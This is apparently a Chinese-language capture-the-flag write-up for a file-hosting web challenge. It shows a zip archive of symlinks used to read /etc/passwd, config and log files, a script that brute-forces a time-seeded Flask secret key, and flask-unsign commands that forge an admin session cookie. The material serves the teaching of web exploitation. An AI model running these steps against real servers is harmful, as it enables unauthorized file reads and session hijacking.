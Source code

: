 # 题目信息

JW#9396

All I wanted was a website letting me host files anonymously for free, for ever

http://simple-file-server.chal.idek.team:1337/

# 解决方案

## 分析

首先阅读源码，发现一个可利用的点，对应如下源码：

```python
subprocess.call(["unzip", filename, "-d", f"{DATA_DIR}uploads/{uuidpath}"])    
```

直接使用unzip解压用户上传的压缩包，这里可以通过软链接来访问任意想要访问的文件，先考虑几个已知的文件，构造对应的压缩包，命令如下：

```sh
ln -s ../../../../../../../../../etc/passwd passwd
ln -s ../../../../../../../../../app/config.py config.py
ln -s ../../../../../../../../../app/flag.txt flag.txt
ln -s ../../../../../../../../../tmp/server.log server.log
zip --symlink exploit.zip passwd config.py flag.txt server.log
```

然后上传，访问这些文件，发现只有flag.txt文件无法访问，因为flag.txt只有root用户可以读取，只能通过cookie认证来获取flag，对应源码如下：

```python
@app.route("/flag")
def flag():
    if not session.get("admin"):
        return "Unauthorized!"
    return subprocess.run("./flag", shell=True, stdout=subprocess.PIPE).stdout.decode("utf-8")
```

我们要伪造cookie前必须知道SECRET_KEY的值，分析产生SECRET_KEY的代码：

```python
import random
import os
import time

SECRET_OFFSET = 0 # REDACTED
random.seed(round((time.time() + SECRET_OFFSET) * 1000))
os.environ["SECRET_KEY"] = "".join([hex(random.randint(0, 15)) for x in range(32)]).replace("0x", "")
```

由于我们可以读取server.log文件，因此我们知道服务启动的时间，此外我们可以读取config.py文件，获取SECRET_OFFSET的值，然后我们爆破100秒之内的所有时间戳，爆出正确的SECRET_KEY，然后使用正确的SECRET_KEY签一个admin的cookie，就可以访问/flag路径拿到flag。

## 利用

```python
import random
from datetime import datetime, timezone, timedelta

# 2023-01-15 23:05:31 +0000
start = int(datetime(2023, 1, 15, 23, 5, 31, 0, timezone(timedelta(0))).timestamp() - 2)
SECRET_OFFSET = -67198624

secret_list = []
for i in range(100000): # 100s
    random.seed(round((start + SECRET_OFFSET) * 1000) + i)
    secret_list.append("".join([hex(random.randint(0, 15)) for x in range(32)]).replace("0x", ""))

fw = open('secret_list.txt', 'w')
fw.write('\n'.join(secret_list))
```

```sh
flask-unsign --unsign --cookie 'eyJhZG1pbiI6ZmFsc2UsInVpZCI6InlhbmdtaW4ifQ.Y8UfdA.kr27kXrVFCeRW0v_eZbZjkhC_7s' -w secret_list.txt
flask-unsign --sign --cookie "{'admin': True, 'uid': 'yangmin'}" --secret 16522bdca70f4af3b2b03fc988cb1d9a
```

```
idek{s1mpl3_expl01t_s3rver}
```